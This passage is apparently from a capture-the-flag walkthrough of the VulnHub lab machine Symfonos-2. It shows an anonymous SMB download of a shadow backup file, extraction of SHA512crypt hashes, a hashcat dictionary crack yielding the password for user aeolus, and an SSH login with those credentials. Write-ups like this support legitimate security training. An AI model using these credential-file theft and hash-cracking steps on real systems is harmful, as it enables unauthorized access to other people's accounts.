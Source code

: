 	2. Download `shadow.bak`

		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/loot/smb]
		└─# smbclient //$ip/anonymous 
		Enter WORKGROUP\root's password: 
		Try "help" to get a list of possible commands.
		smb: \> get shadow.bak 
		getting file \shadow.bak of size 1173 as shadow.bak (572.7 KiloBytes/sec) (average 572.8 KiloBytes/sec)
		smb: \> 
		```

4. Extract hashes

	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/loot/smb]
	└─# cat shadow.bak | cut -d ":" -f2 | sed 's/*\|!/ /g' | awk 'NF'
	$6$VTftENaZ$ggY84BSFETwhissv0N6mt2VaQN9k6/HzwwmTtVkDtTbCbqofFO8MVW.IcOKIzuI07m36uy9.565qelr/beHer.
	$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.
	$6$wOmUfiZO$WajhRWpZyuHbjAbtPDQnR3oVQeEKtZtYYElWomv9xZLOhz7ALkHUT2Wp6cFFg1uLCq49SYel5goXroJ0SxU3D/
	```

	- `sha512crypt (1800)`
5. Crack hashes

	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/loot/smb]
	└─# hashcat -a 0 -m 1800 hashes /usr/share/wordlists/rockyou.txt --show
	$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:sergioteamo
	
	┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/loot/smb]
	└─# cat shadow.bak | grep -i mlg
	aeolus:$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:18095:0:99999:7:::
	```

	- aeolus:sergioteamo

## TCP/22 (SSH) 

1. SSH w/ aeolus:sergioteamo
	![](images/Pasted%20image%2020220124004559.png)
